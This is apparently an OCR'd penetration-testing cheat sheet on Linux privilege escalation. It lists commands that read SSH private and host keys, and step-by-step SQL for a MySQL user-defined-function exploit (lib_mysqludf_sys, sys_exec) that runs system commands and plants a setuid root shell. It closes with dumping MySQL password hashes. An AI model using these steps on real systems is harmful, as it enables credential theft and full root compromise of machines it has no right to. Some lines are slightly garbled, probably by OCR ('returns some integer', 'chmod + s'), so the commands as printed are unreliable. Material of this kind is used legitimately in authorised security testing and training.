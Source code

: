 SSH Keys

	Check all home directories
	cat ~/.ssh/authorized_keys
    cat ~/.ssh/identity.pub
    cat ~/.ssh/identity
    cat ~/.ssh/id_rsa.pub
    cat ~/.ssh/id_rsa
    cat ~/.ssh/id_dsa.pub
    cat ~/.ssh/id_dsa
    cat /etc/ssh/ssh_config
    cat /etc/ssh/sshd_config
    cat /etc/ssh/ssh_host_dsa_key.pub
    cat /etc/ssh/ssh_host_dsa_key
    cat /etc/ssh/ssh_host_rsa_key.pub
    cat /etc/ssh/ssh_host_rsa_key
    cat /etc/ssh/ssh_host_key.pub
    cat /etc/ssh/ssh_host_key
	
Bad PATH configuration

	check PATH variable for a . 

## MySQL
	
	If root access on MySQL then create a user defined function to escalate to root shell
	https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
	https://www.exploit-db.com/exploits/1518/
	
	Steps:
	copy 1518.so over or lib_mysqludf_sys.so over to target
	(located on kali under sqlmap directory)
	/usr/share/sqlmap/udf/mysql/linux/32/lib_mysqludf_sys.so_
	/usr/share/sqlmap/udf/mysql/linux/64/lib_mysqludf_sys.so_
	
	mysql -u root
	use mysql;
	create table hack(line blob);
	insert into hack values(load_file('/tmp/lib_mysqludf_sys.so'));
	select * from hack into dumpfile '/usr/lib/lib_mysqludf_sys.so';
	create function sys_exec returns some integer soname'lib_mysqludf_sys.so';
	
	Test function:
	select sys_exec('id >/tmp/out; chown user:user /tmp/out');
	quit
	cat /tmp/out
	
	Use function to run a setuid program:
	select sys_exec('chmod + s /tmp/setuid');
	/tmp/setuid
	
Get user hashes from MySQL

	strings /var/lib/mysql/mysql/user.MYD
	